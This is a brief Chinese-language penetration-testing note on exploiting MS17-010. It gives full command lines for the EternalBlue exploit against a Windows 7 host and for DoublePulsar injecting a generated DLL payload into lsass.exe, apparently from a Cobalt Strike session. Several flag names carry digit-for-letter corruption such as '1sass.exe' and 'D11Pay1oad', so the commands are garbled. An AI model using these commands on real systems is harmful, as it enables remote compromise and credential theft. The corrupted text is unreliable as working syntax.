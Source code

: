 ![image-20230410151354573](https://img.gyxnb.top/img/image-20230410151354573.png)

## 原生ms17-010渗透

### 1、CS执行下面的命令-win7

```
Eternalblue-2.2.0.exe --TargetIp 192.168.70.16 --Target WIN72K8R2 --DaveProxyPort=0 --NetworkTimeout 60 --TargetPort 445 --verifyTarget True --VerifyBackdoor True --MaxExploitAttempts 3 --GroomA11ocations 12 --0utconfig out1og.txt
```

![image-20230410160210177](https://img.gyxnb.top/img/image-20230410160210177.png)

### 2、上线-利用生成的1111.dll

```
Doublepulsar-1.3.1.exe --InConfig Doublepulsar-1.3.1.xm1 --TargetIp 192.168.70.16 --TargetPort 445 --Protoco1 SMB --Architecture x64 --Function RUNDLL --D11Pay1oad 1111.dll --payloadD1lordinal 1 --ProcessName 1sass.exe --ProcessComnandLine "" --NetworkTimeout 60
```

